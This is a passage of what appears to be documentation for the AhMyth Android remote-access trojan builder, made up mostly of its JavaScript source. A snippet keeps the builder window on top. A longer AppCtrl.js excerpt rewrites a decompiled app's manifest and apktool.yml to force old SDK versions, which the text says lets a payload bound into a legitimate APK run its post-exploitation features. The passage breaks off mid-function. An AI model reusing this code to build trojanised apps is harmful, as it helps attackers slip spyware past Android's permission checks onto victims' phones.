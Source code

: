 # Display AhMyth over other applications
```js
mainWindow.setAlwaysOnTop(true, "screen-saver")     // - 2 -
  mainWindow.setVisibleOnAllWorkspaces(true)          // - 3 -
```

# SDK Version change functions
This code snippet is responsible for automatically changing the `apktool.yml` file's sdk version to `22`
in order for the post-exoloitation features of the payload to work after after installing a Bound apk payload.
- AppCtrl.js
`                              $appCtrl.Log("Determining Target SDK Version...");
                              $appCtrl.Log()
                              fs.readFile(path.join(apkFolder, "AndroidManifest.xml"), 'utf8', (error, data) => {
                                if (error) {
                                  $appCtrl.Log("Reading the Manifest Target SDK Failed.")
                                  $appCtrl.Log()
                                }
                                
                                $appCtrl.Log("Modifying the Target SDK Version...");
                                $appCtrl.Log();
                                var compSdkRegex = /\b(compileSdkVersion=\s*")\d{1,2}"/;
                                var VerCoRegex = /\b(platformBuildVersionCode=\s*")\d{1,2}"/;
                                var repXmlSdk = data.replace(compSdkRegex, "$122"+'"').replace(VerCoRegex, "$122"+'"');
                                fs.writeFile(path.join(apkFolder, "AndroidManifest.xml"), repXmlSdk, 'utf8', (error) => {
                                  if (error) {
                                      $appCtrl.Log('Modifying Manifest Target SDK Failed!', CONSTANTS.logStatus.FAIL);
                                      $appCtrl.Log();          
                                      return;
                                    }

                                    fs.readFile(path.join(apkFolder, 'apktool.yml'), 'utf8', (error, data) => {
                                      if (error) {
                                          $appCtrl.Log("Reading the 'apktool.yml' Target SDK Failed!");
                                          $appCtrl.Log();
                                          return;
                                      }

                                      var minSdkRegex = /\b(minSdkVersion:\s*')\d{1,2}'/;
                                      var tarSdkRegex = /\b(targetSdkVersion:\s*')\d{1,2}'/;
                                      var repYmlSdk = data.replace(minSdkRegex, "$119'").replace(tarSdkRegex, "$122'");
                                      fs.writeFile(path.join(apkFolder, 'apktool.yml'), repYmlSdk, 'utf8', (error) => {
                                        if (error) {
                                            $appCtl.Log("Modifying the 'apktool.yml' Target SDK Failed!")
                                            $appCtrl.Log()
                                            return;
                                          }

                                          var regex = /[^/]+\//;
                                          var str = launcherPath;
                                          var m = str.replace(/\\/g, "/").match(regex);
              
